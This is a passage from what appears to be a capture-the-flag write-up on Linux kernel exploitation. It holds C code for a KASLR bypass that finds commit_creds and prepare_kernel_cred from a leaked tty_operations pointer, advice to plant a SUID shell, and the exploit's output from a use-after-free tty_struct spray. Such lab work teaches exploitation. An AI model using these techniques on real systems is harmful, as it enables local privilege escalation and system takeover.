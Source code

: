 ```c

calculate_kernel_addresses();
```

Where the functions involved are as follows:

```c

int is_kernel_pointer(uint64_t ptr) {
    return (ptr & 0xffff000000000000UL) == 0xffff000000000000UL;
}

void calculate_kernel_addresses(uint64_t tty_ops) {
    printf("[+] KASLR bypass using tty_ops: 0x%lx\n", tty_ops);
    base_address = tty_ops - ops_offset_from_text;
    // Calculate important function addresses using known offsets from _text
    commit_creds = base_address + commit_creds_offset;           
    prepare_kernel_cred = base_address + prepare_kernel_cred_offset;
    // .... other gadgets and function
}
```
Since the `vmlinux` binary provided is stripped, we can’t directly inspect symbol names or ROP gadgets. To work around this, you can add a SUID shell binary (`sh`) to your QEMU image following the steps outlined in [lkmidas’s guide](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/). Once that’s done, you can use commands like the ones below to extract symbol offsets and determine the base address of the kernel for your QEMU instance:

```sh
cat /proc/kallsyms | grep "T _text"
```

Here’s what the output looked like for my actual setup:

```sh
Part 1: Leak Address with tty_struct

[+] Opened vulnerable device: fd=3
[+] Allocated buffer of size 1024
[+] Starting tty_struct spray and leak attempt
[+] Freed buffer (UAF created)
[+] Opening PTY devices to trigger tty_struct allocation...
  Opened PTY 0: fd=4
  Opened PTY 1: fd=5
  Opened PTY 2: fd=6
  Opened PTY 3: fd=7
  .... Opening more
[+] Opened 20 PTY devices
[+] Attempting to read freed memory...
[+] Successfully read 1024 bytes from freed memory

[DEBUG] Analyzing potential tty_struct:
  kref.refcount: 0x1 (1)
  index: 0
  dev: 0x0
  driver: 0xff3e28f701994540
  port: 0xff3e28f701bcee00
  ops: 0xffffffffb1e85100
ops is a kernel pointer

[SUCCESS] Found valid tty_struct!
  tty_operations pointer: 0xffffffffb1e85100
[+] KASLR bypass using tty_ops: 0xffffffffb1e85100
[SUCCESS] KASLR bypassed! Calculated addresses:
  _text: 0xffffffffb0c00000
  commit_creds: 0xffffffffb0cb9970
  prepare_kernel_cred: 0xffffffffb0cb9c20
```